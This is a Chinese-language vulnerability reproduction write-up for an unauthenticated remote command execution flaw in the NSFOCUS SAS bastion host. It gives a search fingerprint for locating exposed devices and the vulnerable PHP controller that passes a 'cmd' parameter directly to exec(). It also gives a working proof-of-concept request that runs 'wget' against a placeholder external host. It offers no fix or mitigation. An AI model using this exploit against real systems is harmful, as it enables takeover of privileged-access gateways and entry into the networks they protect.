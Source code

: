 # 绿盟 SAS堡垒机 Exec 远程命令执行漏洞

## 漏洞描述

绿盟 SAS堡垒机 Exec 远程命令执行漏洞

## 漏洞影响

绿盟 SAS堡垒机

## 网络测绘

body="'/needUsbkey.php?username='"

## 漏洞复现

登陆页面

![image-20230810161951661](https://img2023.cnblogs.com/blog/2411575/202308/2411575-20230810163322490-1233521306.png)

漏洞存在于文件 ExecController.php 文件中

![image-20230810162130389](https://img2023.cnblogs.com/blog/2411575/202308/2411575-20230810163324738-1177872246.png)

```php
<?php
  require_once 'Nsc/Websvc/Response.php';
class ExecController extends Cavy_Controller_Action {

  var $models = 'no';

  public function index() {
    $command = $this->_params['cmd'];
    $ret = 0;
    $output = array();
    exec($command,$output,$ret);
    $result = new StdClass;
    if ($ret != 0) {
      $result->code = Nsc_Websvc_Response::EXEC_ERROR;
      $result->text = "exec error";
    }
    else {
      $result->code = Nsc_Websvc_Response::SUCCESS;
      //			$result->text = implode("\n",$output);
      $result->text = "WEBSVC OK";
    }
    $this->_render(array('result'=>$result),'/websvc/result');
  }
}
?>
```

验证POC

```php
/webconf/Exec/index?cmd=wget%20xxx.xxx.xxx
```

![image-20230810162224581](https://img2023.cnblogs.com/blog/2411575/202308/2411575-20230810163328304-1395783169.png)

![image-20230810162252732](https://img2023.cnblogs.com/blog/2411575/202308/2411575-20230810163331933-881438300.png)